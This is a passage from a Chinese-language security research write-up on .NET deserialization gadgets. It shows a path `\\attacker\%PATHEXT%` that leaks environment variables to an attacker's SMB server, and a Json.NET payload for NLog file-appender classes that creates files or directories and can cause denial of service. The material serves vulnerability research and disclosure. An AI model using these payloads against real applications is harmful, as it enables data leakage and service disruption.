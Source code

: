 代码段 56 FileHelper.TestDirectoryPermissions 方法

在 \[1\] 处，代码检查目录是否存在。

如果不存在，则在 \[2\] 处创建它。

通过这种方式，攻击者可以使用此工具创建新目录或泄露环境变量。当传递以下路径时：`\\attacker\%PATHEXT%`，变量可以从 SMB 服务器日志中提取（请参阅以下截图）。

![](assets/1706773633-d5ca689893a917ce6064d2fb15bdd812.png)

图 4 通过 SMB 连接泄露环境变量

#### 2.7 NLOG – CountingSingleProcessFileAppender / SingleProcessFileAppender / MutexMultiProcessFileAppender

目标类: `NLog.Internal.FileAppenders.CountingSingleProcessFileAppender` `NLog.Internal.FileAppenders.SingleProcessFileAppender` `NLog.Internal.FileAppenders.MutexMultiProcessFileAppender`

适用性 (序列化器): `Json.NET`、`XamlReader`、`MessagePack` 和可能的其他序列化器。

适用性 (.NET): .NET Framework (.NET>=5 未经验证)

最新测试版本: 5.2.4

效果: 目录创建和空文件创建。如果目标应用程序以 SYSTEM 权限运行，可以通过创建目录/文件来实现拒绝服务。

小工具 (Json.NET):

```plain
{ 
    "$type":"NLog.Internal.FileAppenders.SingleProcessFileAppender, NLog,  
Version=5.0.0.0, Culture=neutral, PublicKeyToken=5120e14c03d0593c", 
    "fileName":"C:\\Users\\Public\\poc\\poc.txt", 
    "parameters": 
    { 
        "$type":"NLog.Targets.FileTarget, NLog, Version=5.0.0.0, Culture=neutral,  
PublicKeyToken=5120e14c03d0593c" 
    } 
} 
```

代码段 57 SingleProcessFileAppender

描述:

这三个小工具都基于它们的构造函数调用 `NLog.Internal.FileAppenders.BaseFileAppender.CreateFileStream`。例如：

```plain
internal class SingleProcessFileAppender : BaseFileAppender 
{ 
    public SingleProcessFileAppender(string fileName, ICreateFileParameters 
parameters) : base(fileName, parameters) 
    { 
        this._file = base.CreateFileStream(false, 0); // [1] 
        this._enableFileDeleteSimpleMonitor =  
parameters.EnableFileDeleteSimpleMonitor; 
        this._lastSimpleMonitorCheckTickCount = Environment.TickCount; 
    } 
 ... 
```
